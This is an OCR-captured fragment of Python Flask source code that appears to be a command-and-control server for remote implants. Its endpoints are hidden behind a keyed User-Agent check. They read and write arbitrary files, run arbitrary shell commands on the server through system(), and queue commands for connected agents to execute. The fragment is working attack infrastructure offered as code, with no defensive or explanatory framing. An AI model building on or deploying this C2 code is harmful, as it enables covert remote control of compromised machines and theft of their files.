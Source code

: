         abort(404)


@app.route(f'/api/agents/<uid>/upload', methods=['POST'])
def post_upload(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):     
        if uid in live_agents:
            if request.json:
                file = request.json["file"]
                f = open(file,"rb")
                data = f.read()
                f.close()
                return data, 200
        else:
            return 401
    else:
        abort(404)


@app.route(f'/api/agents/<uid>/download', methods=['POST'])
def post_download(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):     
        if uid in live_agents:
            if request.json:
                file = request.json["file"]
                if file in ["app.py", "aggressor.txt"]:
                    abort(404)
                data = request.json["data"]
                f = open(file ,"w")
                f.write(data)
                f.close()
                return "OK", 200
        else:
            return 401
    else:
        abort(404)


@app.route(f'/api/server/exec', methods=['POST'])
def post_server_exec():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if request.json:
            cmd = request.json['cmd']
            res = system(f"{cmd}")
            return f"Command: {cmd} - Result code: {res}", 200
        else:
            return "Bad request", 400
    else:
        abort(404)


@app.route('/api/agents/<uid>/exec', methods=['GET', 'POST'])
def post_agent_exec(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if uid in live_agents:
            if request.method == 'GET':
                return f"EXEC: {uid}", 200
            if request.method == 'POST':
                if request.json:
                    global command_to_execute_next
                    command_to_execute_next = request.json["cmd"]
                    global command_stack_reset_flag
                    command_stack_reset_flag = False
                    msg = f"New commnad to execute: {command_to_execute_next}"
                    app.logger.debug(msg)
                    print(msg)
                    return msg, 200